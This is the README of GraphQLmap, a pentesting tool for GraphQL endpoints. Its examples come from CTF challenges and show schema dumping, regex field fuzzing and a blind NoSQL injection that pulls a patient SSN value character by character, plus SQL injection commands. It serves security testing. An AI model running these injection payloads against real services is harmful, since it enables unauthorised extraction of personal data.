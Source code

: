 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.

## Install

```basic
$ git clone https://github.com/swisskyrepo/GraphQLmap
$ python graphqlmap.py
   _____                 _      ____  _
  / ____|               | |    / __ \| |
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/
                  | |                                       | |
                  |_|                                       |_|
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]]

optional arguments:
  -h, --help          show this help message and exit
  -u URL              URL to query : example.com/graphql?query={}
  -v [VERBOSITY]      Enable verbosity
  --method [METHOD]   HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS] HTTP Headers sent to /graphql endpoint
  --json              Send requests using POST and JSON
```

## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```
python3 graphqlmap.py -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automaticly populate the "autocomplete" with the found fields.  
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

Query
        doctor[]: email (String!),
        doctors[Doctor]:
        patients[Patient]:
        patient[]: id (ID!),
        allrendezvous[Rendezvous]:
        rendezvous[]: id (ID!),
Doctor
        id[ID]:
        firstName[String]:
        lastName[String]:
        specialty[String]:
        patients[None]:
        rendezvous[None]:
        email[String]:
        password[String]:
[...]
```

### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.  
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.  
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```
